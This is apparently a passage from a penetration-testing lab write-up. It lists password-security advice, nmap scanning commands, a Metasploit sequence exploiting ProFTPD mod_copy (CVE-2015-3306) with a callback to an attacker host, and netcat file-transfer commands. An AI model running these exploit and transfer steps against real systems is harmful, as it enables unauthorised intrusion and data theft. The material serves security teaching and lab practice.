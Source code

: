 ### **Password Security:**
- **Complexity Requirements**: Enforce strong password policies
- **Unique Passwords**: Avoid common patterns and dictionary words
- **Multi-Factor Authentication**: Implement MFA for sensitive systems
- **Regular Rotation**: Implement appropriate password rotation policies

---

## 🔧 Tools and Techniques Reference

### **Nmap Commands:**
```bash
# Host discovery
nmap -sn <network_range>

# Service detection
nmap -sV -sC <target>

# Comprehensive scan
nmap -sV -sC -A -p- <target>

# Specific port scan
nmap -p 21,22,80,443 <target>
```

### **Metasploit Commands:**
```bash
# Start Metasploit
msfconsole

# Search for exploits
search proftpd
search CVE-2015-3306

# Use exploit
use exploit/unix/ftp/proftpd_modcopy_exec

# Set options
set RHOSTS <target>
set LHOST <attacker>
set LPORT 4444

# Execute
exploit
```

### **Netcat File Transfer:**
```bash
# Receiver (listener)
nc -lvp <port> > received_file

# Sender
nc <target_ip> <port> < file_to_send

# Check transfer
md5sum file_original
md5sum file_received
```
